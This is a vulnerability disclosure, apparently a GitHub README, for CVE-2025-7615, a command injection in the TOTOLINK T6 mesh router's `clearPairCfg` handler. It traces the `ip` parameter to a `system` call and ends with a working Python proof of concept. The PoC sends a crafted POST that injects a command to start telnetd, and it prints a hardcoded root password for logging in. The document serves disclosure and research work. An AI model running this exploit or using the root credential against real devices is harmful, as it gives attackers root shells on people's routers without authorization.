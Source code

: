 # [CVE-2025-7615](https://www.cve.org/CVERecord?id=CVE-2025-7615)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection vulnerability. This vulnerability can be triggered through the topicurl `clearPairCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

Here is the code that handle request to topicurl `clearPairCfg`. The `ip` parameter is passed to funcion `safe_cs_pub` as the first param

![image-1](6/1.png)

![image-1](6/4.png)

Function `safe_cs_pub` pass first param (domain) to `tcpcheck_net` function for further processing

![image-2](5/2.png)

In `tcpcheck_net` function, there is a command injection vulnerability. Program use call `tcpcheck` with system. If we can control `domain` param, we can inject the code to `system`

![image-3](5/3.png)

# POC

```python
import requests, time, sys, os

def execute_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"clearPairCfg",
        "type":"slave",
        "ip":";%s;"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("[-] Usage: <%s> target_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    
    print("[+] Try telnet %s with root/KL@UHeZ0. Also check '/tmp/hacked'" % target_ip)
    execute_command(target_ip, "telnetd; echo Pwned by Elvis > /tmp/hacked")
```

[Video](https://youtu.be/G05N6n9uNUE)

# Credits

[Reisen_1943](https://anduinbrian.github.io/). He helped me to setup the device and found the login information for root account.